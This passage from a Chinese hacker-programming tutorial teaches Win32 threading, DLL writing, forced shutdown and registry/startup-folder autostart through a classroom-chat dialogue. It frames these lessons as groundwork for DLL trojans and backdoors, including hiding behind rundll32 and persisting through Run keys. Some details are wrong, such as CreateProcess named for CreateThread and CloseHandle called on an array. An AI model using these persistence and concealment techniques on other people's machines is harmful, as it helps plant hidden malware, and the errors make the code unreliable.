    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
);
```

“其中，参数意义如下：”

- lpThreadAttributes：是个指向 SECURITY_ATTRIBUTES 结构的指针，如果想让对象为缺省安全属性，可传一个 NULL。
- dwStackSize：表示线程为自己所用堆栈分配的地址空间大小，0 表示采用系统缺省值。
- lpStartAddress：表示新线程开始执行时代码所在函数的地址，即线程函数名。
- lpParameter：是传入线程函数的参数。
- dwCreationFlags：指定控制线程创建的附加标志，可以取两个值：0 和 CREATE_SUSPENDED。如果设置为 0，线程就会立刻开始执行；如果为 CREATE_SUSPENDED，则系统挂起该线程，使得程序能够在线程执行前修改某些属性。
- lpThreadId：是一个 DWORD 类型的地址，返回赋给该新线程的 ID 值。

“而线程函数 lpStartAddress 必须具有以下原型：”

```cpp
DWORD WINAPI XXXThreadFun(LPVOID lpParameter)
{
    return(0);
}
```

#### 1.4.2 如何创建一个线程

“现在举个简单的例子让大家看看如何创建一个线程：”

```c
#include <windows.h>
#include <stdio.h>

DWORD WINAPI ThreadFunc(LPVOID lpParam)
// 线程函数，跟普通的函数没什么两样
{
    printf("Thread function Parameter = %d.", *(DWORD*)lpParam);
    return 0;
}

VOID main(VOID)
{
    DWORD dwThreadId, dwThrdParam = 1;
    HANDLE hThread;
    hThread = CreateThread(NULL, 0, ThreadFunc, &dwThrdParam, 0, &dwThreadId);
    if (hThread == NULL)
    {
        printf("CreateThread failed (%d)\n", GetLastError());
    }
    else
    {
        CloseHandle(hThread);
    }
}
```

“这里有一个线程函数的参数传递问题，因为 CreateProcess() 中只传递一个参数作为函数的参数，如果线程函数需要传入更多的参数，就必须把所有的参数存放在一个结构中传递。”

“好的，我们去编译一下上面的代码吧……”冰眼说道。  
“出问题了！怎么运行了什么也没显示？”蓝狐很诧异地问道。

“啊！忘了一点重要的东西！我们要在‘CloseHandle(hThread);’这句前面添加一个等待函数 WaitForSingleObject(hThread, INFINITE)。这句一定要添加，因为主线程执行完 CreateThread() 后，系统创建线程需要一段短暂的时间。但主线程会继续后面的操作，即用 CreateThread 创建的子线程有可能还没来得及执行所有代码时，主线程就退出了。如果不加上 WaitForSingleObject(hThread, INFINITE)，上面的代码就不会有任何输出。”

“哦！原来如此！”我是良民回道。  
“WaitForSingleObject(hThread, INFINITE) 是等待函数，可以使主线程进入等待状态，直到子线程退出。其中，‘hThread’是线程句柄，标识要等待的线程；第二个参数为等待时间，如设置成 5000，则主线程最多等待 5 秒钟，如果设置成‘INFINITE（-1）’，表示告诉系统愿意永远等待下去，直到该线程终止。”

“我有问题要问！如果我们创建了 N 个线程，那么是不是要利用 N 个 WaitForSingleObject() 函数？”马蜂窝问道。  
“你的想法是可以的，不过没人那么笨。实现一个功能可以有 N 种办法，但有最好和最坏之分，你的方法应该归为最差的那种了。其实，这时我们可以利用 WaitForMultipleObjects() 函数。”

“……老师什么意思嘛！”马蜂窝生气地说，并发了一个嘴里冒火的红鬼头像。

“这位同学莫生气，想问题时不要一根筋，我并无恶意，只是开个玩笑罢了！有时我们换个方位思考问题，会有意想不到的收获……”

“哦！:(”马蜂窝明显地还是不服气。

“WaitForMultipleObjects() 函数原型如下：”

```c
DWORD WaitForMultipleObjects(
    DWORD nCount,              // 对象数组中的句柄数
    const HANDLE *lpHandles,   // 对象句柄数组
    BOOL bWaitAll,             // 等待选项
    DWORD dwMilliseconds       // 最大等待时间
);
```

“上面的代码中，参数‘nCount’指明要让函数等待的对象个数，这个值需要在 1 与 MAXIMUM_WAIT_OBJECTS（值为 64）之间；参数‘lpHandles’是指向内核对象句柄的数组指针，例如一个 50 个线程句柄的数组 ThreadHandle[50]；参数‘bWaitAll’为 TRUE 时，函数一直等待，直到所有的线程结束才返回；为 FALSE 时，只要有一个线程结束就返回，并且返回值为该返回对象；参数‘dwMilliseconds’的作用跟 WaitForSingleObject() 中的作用完全一样，如果等待时间到了，无论如何都返回。”

#### 1.4.3 多线程编程中应注意的问题

“看了谷大哥上面的介绍，编写多线程程序好像并不难，实际情况中有什么要注意的吗？”我是良民问道。

“有的！那就是多线程中有公共变量的问题。如果编写一个多线程的应用程序（如一个多线程扫描器），而各个线程之间存在着公共变量的话（如端口变量），那么就不能简单地在每个线程中利用诸如‘port++’这样的自增运算了。这里涉及多线程的同步问题，因为各个线程都可以访问进程中的公共变量，所以使用多线程的过程中需要注意的问题是：如何防止两个或两个以上的线程同时访问同一个数据，以免破坏数据的完整性。保证各个线程可以在一起适当地协调工作，称为线程之间的同步。”

“下面举个例子：”

```c
int i = 0;

DWORD WINAPI Thread1(PVOID lp)
{
    i++;
    return 0;
}

DWORD WINAPI Thread2(PVOID lp)
{
    i++;
}
```

```c
return 0;
}
```

“上面两个线程函数都是把 i 自加 1，大家猜猜两个线程结束后，i 的值会是多少？”

“这还不简单？稍有 C 语言基础的人都知道怎么算！i 初始值为 0，执行两次 i++ 不就等于 2 了吗？”多多喵第一个给出了答案。

“呵呵，算你还有点 C 语言基础，但是结果却不是那么简单。大家都可能会认为 i 经过两次 i++ 后，结果就是 2。如果在单独的线程中这是对的，但按照上面的例子来说就不一定了，结果有时会是 2，有时会是 1。”

“为什么会这样啊？”多多喵不解地问道。

“我们来看看 i++ 的汇编源码（大家可能不懂汇编，但下面我会给出注释，相信大家都可以看懂。）”

```asm
mov eax,[i]    ; 把变量 i 的值移到寄存器中
inc eax        ; 让寄存器中的值递增 1
mov [i],eax    ; 把新的值放回到变量 i 中
```

“前面说过，CPU 每一时刻执行一个指令，如果上面两个线程中的代码都执行，那么实际的汇编代码可能会是下面的样子：”

```asm
mov eax,[i]    ; 线程1 把变量 i 的值移到寄存器中        eax 为0      变量 i 为0
inc eax        ; 线程1 让寄存器中的值递增 1             eax 为1      变量 i 为0

mov eax,[i]    ; 线程2 把变量 i 的值移到寄存器中        eax 为0      变量 i 为0
inc eax        ; 线程2 让寄存器中的值递增 1             eax 为1      变量 i 为0
mov [i],eax    ; 线程2 把新的值放回到变量 i 中                      变量 i 为1

mov [i],eax    ; 线程1 把新的值放回到变量 i 中                      变量 i 为1
```

“如果代码按这种方式执行的话，变量 i 最终的值就不是 2，而是 1 了。”

“哦！原来是这样啊！”我是良民好像明白了。

“谷大哥，有没有解决的办法啊？编写多线程的扫描器，不是每个线程都要来读取和改写端口变量的吗？该怎么处理？”蓝狐问道。

“嗯，为了解决上面的问题，我们可以利用 InterlockedExchangeAdd() 互斥函数。如果我们把上面的 ‘i++’ 改为 ‘InterlockedExchangeAdd((long *)&i,1)’，就可以保证 i 的最终结果为 2。我们不必了解互斥函数是如何操作的，只需知道多线程里可以利用这个函数来修改公共变量就够了。如果想要实现的是 ‘i--’，只需把 ‘1’ 改为 ‘-1’，就行了。”

“嗯！这个函数我已经记下了！”

“关于线程同步的方法还有很多，例如临界区、互斥、信号量等。大家可以参考其它文章，这里就不多说了。下面再给出一个利用临界区的多线程例子，让大家参考参考：”

## 第二章 网络和编程的基本知识

```c
#include<stdio.h>
#include<windows.h>
int a=0;   // 这个是公共变量
CRITICAL_SECTION gcs;   // 创建 CRITICAL_SECTION 结构来保护资源

DWORD WINAPI RecvThread(LPVOID lp)
{
    int num=*(DWORD*)lp;   // 得到线程参数
    while(a<1000)   // 如果 a<1000 就执行 a++
    {
        printf("Thread %d a= %d\n",num,a);
        EnterCriticalSection(&gcs);
        // 进入临界区，接下来的资源只能一个线程读取
        a++;
        LeaveCriticalSection(&gcs);   // 离开临界区
    }
    // 利用这种方法可以保护多个变量
    return 0;
}

void main(void)
{
    InitializeCriticalSection(&gcs);   // 初始化
    HANDLE Thread[10];
    for(int i=0;i<10;i++)   // 创建10个线程
    {
        Thread[i]=CreateThread(NULL,0,RecvThread,&i,0,NULL);
        Sleep(500);
    }
    WaitForMultipleObjects(10,Thread,TRUE,50000);
    // 等待所有线程结束
    DeleteCriticalSection(&gcs);
    CloseHandle(Thread);
    return;
}
```

“上面这个利用临界区的例子可以保护多个共享变量。如果大家有兴趣的话，可以把‘EnterCriticalSection(&gcs)’和‘LeaveCriticalSection(&gcs);’这两句去掉，看看结果有什么不同。”

“通过这堂课，大家对多线程的概念应该不再陌生了吧？”

“嗯，这样看来，多线程的程序编写也不算很难，基本原理我们都懂了。”我是良民自信地答道。

“那么这堂课就到此结束吧！各位同学再见！”

“老师再见！”

热闹的 QQ 群再次变得静悄悄……

### 1.5 了解 DLL 文件

“大家知道，在 Windows 系统中，除了 EXE 文件，最多的是什么文件？”

“嗯！应该是 DLL 文件吧！我在很多文件夹里都能看到它们。究竟什么是 DLL 文件呢？”马蜂窝同学说道。

“哈哈，扩展名是 DLL 的就是 DLL 文件咯！”蓝狐诡异地答道。

!@#￥%……

“其实，DLL 文件指的是动态链接库（Dynamic Link Library），它是一个可以被多个应用程序同时调用的二进制文件，是个可共享的库。DLL 文件里包含若干函数，函数和数据被存储在一个 DLL 上，并由一个或多个应用程序导出而使用。”

“那么使用 DLL 有什么好处啊？”冰眼问道。

“在 Windows 操作系统中，使用 DLL 有很多优点，最主要的一点是：多个应用程序可以共享一个 DLL 文件，真正实现了资源‘共享’，大大缩小了应用程序的执行代码，更加有效地利用了内存。使用 DLL 的另一个优点是：DLL 文件作为一个单独的程序模块，封装性、独立性好，在软件需要升级的时候，开发人员只需修改相应的 DLL 文件就可以了。”

“说了这么多，这跟黑客编程好像没什么联系啊！”我是良民有点不耐烦了。

~!@#￥%……

“你们听过 DLL 木马没有？”

“听说过，但就是不知道具体是怎样的。”冰眼答道。

“好，大家看看下面的描述吧！”

> **小知识：DLL 后门**
>
> 其实，DLL 后门只是 EXE 后门的一种变形。通常我们编写的后门都是以 EXE 文件存在的，而 DLL 后门就是一个 DLL 文件。EXE 后门运行时，在任务管理器中就会有这个 EXE 的进程存在。而 DLL 后门或木马也就是把后门做成 DLL 文件，然后由某一个 EXE 文件作为载体，或者直接使用系统的 Rundll32.exe 来启动，这样就不会有进程。DLL 文件可以让应用程序装载并执行其中的代码，我们把要实现某些功能的函数封装在一个 DLL 文件中，然后只要其它程序需要实现某些功能，都可以加载这个 DLL 文件，并执行其中的代码。
>
> DLL 文件本身并不能够独立运行，必须由指定的应用程序（EXE）来装载，并调用其中的函数。例如我们写个 DLL 木马，那么就可以利用 rundll32.exe 来运行我们的木马程序，因为是 DLL 木马，所以没有进程。因此，在任务管理器里就发现不了我们的木马。
>
> 大家可以做个试验，在“运行”里输入：
>
> ```code
> rundll32 user32.dll,LockWorkStation
> ```
>
> （Win2000 以上系统），那么我们的桌面就被锁起来了。原因是 rundll32.exe 执行了 user32.dll 里的 LockWorkStation() 函数。


“DLL 文件除了编写 DLL 木马外，还有什么用？”

“以后我们会介绍利用远程线程来让目标进程装载我们的 DLL，以实现穿透防火墙的功能。不过，现在大家得先了解 DLL 的原理，以及如何编写 DLL 文件。下面我给大家说说 DLL 文件的具体用途。”

> “如果我们编写了很多代码，肯定会遇到一些代码需要重复使用的情况。例如木马某个功能模块的实现等。如果每次在编写一个新的程序时，都对这些模块进行复写，那么肯定会造成时间和精力的浪费。代码复用最简单的例子就是 C 语言的头文件或函数库，我们可定义自己的头文件，然后在需要用到的地方用 `#include` 指令添加进去，这样我们就不必为每个新程序都编写相同的代码，就可加快程序的编写速度，同时易于代码的管理。”
>
> “而动态链接库（DLL）是一种多个函数的包装，DLL 里包含了我们自定义的函数。当需要用到这些函数时，加载这个 DLL 并取得函数的地址，就可实现该函数的功能了。更重要的是，即使 N 个程序加载同一个 DLL，Windows 系统也不会加载多个 DLL 的副本到内存中，也就是说内存中只有一个 DLL 的拷贝，但每个进程都可访问该 DLL 中的资源，这样就节省了内存空间。我们可以在需要时加载 DLL，不需要时卸载它。如果该 DLL 只被一个进程所使用，那么该 DLL 马上从内存中消失。如果还有另外的程序使用它，它将一直保留在内存中，直到程序不再使用它为止。”
>
> “老师，说了这么多理论，来点实际行动行不？”多多喵有点不耐烦了。
>
> “好的，下面我们来看看如何编写一个简单的 DLL 文件。首先，打开 VC6.0，然后新建一个工程，选择‘Win32 Dynamic-Link Library’，然后为我们的 dll 取个名字：如图 1-9。”
>
> “点击‘确定’后，得到图 1-10。”





“然后我们点击‘完成’，就可进入代码编辑了。VC 为我们自动生成以下代码：”

```cpp
// hacker.cpp : Defines the entry point for the DLL application.
//

#include "stdafx.h"

BOOL APIENTRY DllMain(HANDLE hModule,            // DLL 模块的句柄
                      DWORD ul_reason_for_call,  // 函数调用的原因
                      LPVOID lpReserved)         // 保留项
{
    return TRUE;
}
```

“上面有一个 DllMain 函数，这跟我们的 main() 函数一样。每个 DLL 文件都必须有一个 DllMain() 函数，但 DLL 中的代码却不一定由 DllMain() 函数开始。这时，我们编译一下就可得到一个 DLL 文件。这个文件在 VC 安装目录下 hacker（工程文件夹）中的 Debug（调试版本）文件夹里，如果以 Release（发行版本）编译的话，就存在于 Release 文件夹中。由于我们这个 DLL 什么函数也没有，所以这个 DLL 什么也做不了。为了让我们的 DLL 可以实现一些功能，必须编写一些函数。DLL 可以定义两种函数：外部函数和内部函数。外部函数可被其他模块调用，而内部函数仅仅可以被定义这些内部函数的 DLL 调用。为了简单地展示，我们来写个弹出对话框的函数。把如下代码加到上述代码的后面。”

```cpp
extern "C" __declspec(dllexport) void msg()
{
    MessageBox(NULL, "Hello NOHACK!", "Hacker", MB_OK);
}
```

“然后把 hacker.dll 拷贝到系统根目录（与 rundll32.exe 在同一目录），在‘运行’里输入 **rundll32 hacker.dll,msg**，此时会弹出一个对话框。如图 1-11。”

“在上面的代码中，‘__declspec(dllexport)’说明该函数由外部调用。‘extern "C"’告诉编译器不要改变变量名或函数名，这样，变量和函数就可供其它编程语言编写的 exe 文件来访问。”

“那我们如何在程序中调用已经编写好的 DLL 里的函数呢？”我是良民问道。

“这个比较简单，下面我们就用 VC 写个程序调用它。在调用的函数中，首先要获得 DLL 的句柄，有如下语句：”



图 1-11

```cpp
main(void)
{
    HINSTANCE dllinstance;
    dllinstance=LoadLibrary("hacker.dll");
    if(dllinstance==NULL) printf("can't open dll");

    // 获得句柄后，下面要获得函数地址以便执行它。有如下语句：
    FARPROC msgA;
    msgA=GetProcAddress(dllinstance,"msg");
    if(msgA==NULL) printf("can't find function");
    else msgA();   // 找到了函数，执行它
}
```

## 第二章 网络和编程的基本知识

“FARPROC 是一个远程过程指针，通过 GetProcAddress 获得函数的地址。它的两个参数就是 dll 文件句柄和函数的名字了。然后 FARPROC 就可和 msg 一样使用了，它就是 msg，msg 就是它。”

“另外，在 DllMain 函数里有个 ‘ul_reason_for_call’ 参数，这个参数为 DLL 的调用原因。我们可利用以下代码加强 DLL 的管理功能：”

```c
switch(ul_reason_for_call)
{
    case DLL_PROCESS_ATTACH:   // DLL 正被加载
        break;
    case DLL_THREAD_ATTACH:    // 当前进程正在创建一个新线程
        break;
    case DLL_THREAD_DETACH:    // 线程将要退出
        break;
    case DLL_PROCESS_DETACH:   // 进程将要退出
        break;
    default:
        break;
}
return TRUE;
```

“我们可以在 DLL_PROCESS_ATTACH（也就是当 DLL 文件正被应用程序加载时）处添加相应的代码，执行相应的操作（关于‘远程线程’以后的文章中会有介绍），或者在 DLL_PROCESS_DETACH 时（即进程将退出时）执行一些清理工作。”

“好了，DLL 的基本原理就介绍到此。大家可以尝试编写 DLL 木马或后门，但要记住一点：要被外部程序调用的函数必须在函数定义前加上 ‘__declspec(dllexport)’，否则会出错。当大家编写好函数后，只需利用 rundll32 来执行其中的函数就可以了。但利用 rundll32 执行我们的函数有个弊端：在任务管理器中会出现一个 rundll32 进程。如何解决这个问题呢？我们将在以后介绍远程线程的方法时给出答案。现在，大家对 DLL 文件的作用和编写应该都有一定的了解了吧？”

“嗯，明白！”大家在 QQ 群同时发出了这样一句话。

“好了，有了关于 DLL 的基本知识，以后给大家介绍 DLL 插入远程进程的知识就比较容易了。关于 DLL 的问题就简单介绍到这里，如果大家还有什么不明白，可去 Google 搜索一下！”

## 第三章 黑客编程精粹

- 2.1 Windows 关机和重启代码 39
  - 2.1.1 在 Windows 98 实现“注销/重启/关机”功能的代码 39
  - 2.1.2 在 Windows 2000 实现“注销/重启/关机”功能的代码 39
- 2.2 程序如何通过注册表实现自启动 40
  - 2.2.1 最重要的两个文件夹和八个注册键 40
  - 2.2.2 通过编程实现程序自启动 41
- 2.3 如何编写一个 NT 服务 43
  - 2.3.1 关于 NT 服务 43
  - 2.3.2 如何编写服务 44
- 2.4 进程的创建 49
- 2.5 如何让程序下载东西 52
- 2.6 在 Win9x 下如何隐藏进程 53
- 2.7 如何实现反向连接后门 54
- 2.8 如何获得本机 IP 地址 57
- 2.9 如何查杀进程 58
- 2.10 如何获得系统详细信息 60
- 2.11 如何通过建立空连接来取得系统用户 62
- 2.12 如何实现文件关联 65
- 2.13 如何发送和接收文件 67
- 2.14 如何捕获当前桌面 71

### 2.1 Windows 关机和重启代码

“在很多木马中都提供有远程关机功能，请问这是如何实现的呢？”冰眼一开始就提出问题。

“远程关机对于木马来说不是一个很好的功能。远程关闭别人的机器，还不让对方怀疑中了木马，这可能吗？像以前的‘广外女生’去自动关闭天网和杀毒防火墙，真是‘此地无银三百两’。不过对于入侵服务器，有时是需要重启远端服务器的。对于关机和重启，如要在 Win9x 下利用，通过调用一个 Windows API 函数 ExitWindowsEx() 就可完成，在 Windows 2000 下实现稍有不同。”

```c
ExitWindowsEx() 函数定义格式：

BOOL ExitWindowsEx(
    UINT uFlags,
    DWORD dwReason
);
```

#### 2.1.1 在 Windows 98 实现“注销/重启/关机”功能的代码

代码如下：

```c
ExitWindowsEx(EWX_LOGOFF, 0);   // 注销
ExitWindowsEx(EWX_REBOOT, 0);   // 重启
ExitWindowsEx(EWX_SHUTDOWN, 0); // 关机
```

#### 2.1.2 在 Windows 2000 实现“注销/重启/关机”功能的代码

“在 Windows 2000 或以上的系统中，出于安全考虑，许多函数需要有特定的权限才能执行。所以我们不能像在 Win9x 下那样只通过一个 API 函数就关闭计算机，要让程序得到较高的权限才能够执行关机的 API 函数。”

```c
HANDLE hToken;
TOKEN_PRIVILEGES tkp;

// 取得系统版本
OSVERSIONINFO osvi;
osvi.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
if (GetVersionEx(&osvi) == 0)
    return false;

if (osvi.dwPlatformId == VER_PLATFORM_WIN32_NT)
{
    // Windows NT 3.51, Windows NT 4.0, Windows 2000,
    // Windows XP, Windows .NET Server
    if (!OpenProcessToken(GetCurrentProcess(),
        TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
```

```c
// 打开当前进程访问令牌
return false;

LookupPrivilegeValue(NULL, SE_SHUTDOWN_NAME, &tkp.Privileges[0].Luid);
// 获取本地唯一标识用于在特定系统中设置权限

tkp.PrivilegeCount = 1;
tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0);
// 提升访问令牌权限
}

ExitWindowsEx(EWX_FORCE, 0);
// 强制关机，不向进程发送 WM_QUERYENDSESSION 消息
```

### 2.2 程序如何通过注册表实现自动启动

“Windows 启动时通常会有一大堆程序自动启动。是不是管好了‘开始→程序→启动’菜单就万事大吉了？”蓝狐问道。

“呵呵，实际上，在 Windows 98/ME/XP/2K 中，让 Windows 自动启动程序的方法还有很多，下面告诉大家最重要的两个文件夹和八个注册键。”

#### 2.2.1 最重要的两个文件夹和八个注册键

- 1. **当前用户专有的启动文件夹**  
  许多应用软件自动启动的常用做法是：将快捷方式放入 Windows 的用户启动文件夹中。用户启动文件夹一般在：系统盘:\Documents and Settings\<用户名>\“开始”菜单\程序\启动，其中“<用户名>”是当前登录的用户账户名称。

- 2. **对所有用户有效的启动文件夹**  
  这是自动启动程序的第二个重要位置，不管用户以什么身份登录系统，放入该文件夹的快捷方式总是自动启动——这是它与当前用户专有启动文件夹的区别所在。该文件夹一般在：系统盘:\Documents and Settings\All Users\“开始”菜单\程序\启动。

图 2-1

- 3. **Load 注册键**  
  介绍该注册键的资料不多，实际上它也能够自动启动程序。位置在：`HKEY_CURRENT_USER\Software\Microsoft\WindowsNT\CurrentVersion\Windows\load`。

- 4. **Userinit 注册键**  
  位置在：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon\Userinit`。这里也能够使系统启动时自动初始化程序，通常该注册键下有一个 `userinit.exe`，如图 2-1。但这个键允许指定用逗号分隔的多个程序，例如“userinit.exe,OSA.exe”（不含引号）。

- 5. **Explorer\Run 注册键**  
  和 Load、Userinit 不同，Explorer\Run 键在 HKEY_CURRENT_USER 和 HKEY_LOCAL_MACHINE 下都有，具体位置是：  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run`，和  
  `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run`。

- 6. **RunServicesOnce 注册键**  
  RunServicesOnce 注册键用来启动服务程序，启动时间在用户登录之前，而且先于其他通过注册键启动的程序。RunServicesOnce 注册键的位置是：  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce` 和  
  `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce`。

- 7. **RunServices 注册键**  
  RunServices 注册键指定的程序紧接在 RunServicesOnce 指定的程序后运行，但两者都在用户登录之前。RunServices 的位置是：  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices` 和  
  `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices`。

- 8. **RunOnce\Setup 注册键**  
  RunOnce\Setup 指定了用户登录之后运行的程序，它的位置是：  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce\Setup` 和  
  `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\Setup`。

- 9. **RunOnce 注册键**  
  安装程序通常用 RunOnce 键自动运行程序，它的位置在：  
  `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce` 和  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`。  

  HKEY_LOCAL_MACHINE 下面的 RunOnce 键会在用户登录之后立即运行程序，运行时间在其他 Run 键指定的程序之前。HKEY_CURRENT_USER 下面的 RunOnce 键在操作系统处理其他 Run 键以及“启动”文件夹的内容之后运行。如果是 XP，你还需要检查一下 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx`。

- 10. **Run 注册键**  
  Run 是自动运行程序最常用的注册键，位置在：  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 和  
  `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`。  

  HKEY_CURRENT_USER 下面的 Run 键紧接 HKEY_LOCAL_MACHINE 下面的 Run 键运行，但两者都在处理“启动”文件夹之前。

#### 2.2.2 通过编程实现程序自启动

“知道了木马的注册表启动方式，如何编程来实现我们的程序自动启动呢？”我是良民有点迫不及待了。

“我们已经知道了木马改写注册表的键值，接下来就是学习如何用编程来修改注册表。对于大部分程序来说，都是采用注册表的 Run 键值。下面我们来看看如何在 Run 键值中添加自己的程序。首先介绍一下将要用到的注册表相关的 API 函数。‘RegOpenKey()：在应用程序向注册表中添加数据之前，它必须创建和打开一个关键字。我们可通过使用 RegOpenKey() 来打开关键字。RegOpenKey() 的函数原型如下：’”

```c
LONG RegOpenKey(
    HKEY hKey,          // 打开的关键字的句柄
    LPCTSTR lpSubKey,   // 子关键字名字
    PHKEY phkResult     // 打开的关键字句柄
);
```

